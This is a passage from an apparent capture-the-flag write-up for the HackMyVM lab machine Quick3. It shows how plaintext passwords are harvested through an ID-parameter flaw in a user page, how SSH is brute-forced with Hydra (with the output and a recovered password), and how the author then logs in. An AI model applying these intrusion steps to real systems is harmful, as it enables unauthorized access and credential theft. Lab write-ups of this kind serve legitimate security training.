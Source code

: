 We can see a user information page with more functionalities. One of the options is that we can change the password for the user. Let's visit the page.
![image](/assets/img/WriteUp/HackMyVM/Quick3/Pasted image 20240124161446.png){: width="700" height="400" }

We can inspect the page by hitting the key `F12` on the keyboard to open the deveoper tools in Firefox.
![image](/assets/img/WriteUp/HackMyVM/Quick3/Pasted image 20240124161541.png){: width="700" height="400" }

If we inspect the fields we can see that the password is shown as plaintext in the value field. Based on the `id=` we should try to use some other values to see if we can see details of another user.

![image](/assets/img/WriteUp/HackMyVM/Quick3/Pasted image 20240124161635.png){: width="700" height="400" }

It works! We should collect all passwords for all the employees. We don't collect the passwords for the customers since we want to gain access to the server.

```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick3]
└─$ nano users

┌──(emvee㉿kali)-[~/Documents/HMV/Quick3]
└─$ nano passwords  
```

After creating lists for usernames and passwords we can use Hydra to brute force the SSH service to identify valid credentials.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick3]
└─$ hydra ssh://$ip -L users  -P passwords -I  
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-01-24 16:20:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 77 login tries (l:7/p:11), ~5 tries per task
[DATA] attacking ssh://10.0.2.42:22/
[22][ssh] host: 10.0.2.42   login: mike   password: 6G3UCx6aH6UYvJ6m
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-01-24 16:21:02

```
We have valid credentials for the user mike.

## Initial access
Now we should use the credentials to logon to the SSH service.
```bash
┌──(emvee㉿kali)-[~/Documents/HMV/Quick3]
└─$ ssh mike@$ip  
mike@10.0.2.42's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-91-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Jan 24 03:21:52 PM UTC 2024

  System load:  0.033203125       Processes:               116
  Usage of /:   56.0% of 9.75GB   Users logged in:         0
  Memory usage: 32%               IPv4 address for enp0s3: 10.0.2.42
  Swap usage:   0%                IPv4 address for enp0s8: 10.0.2.43


```
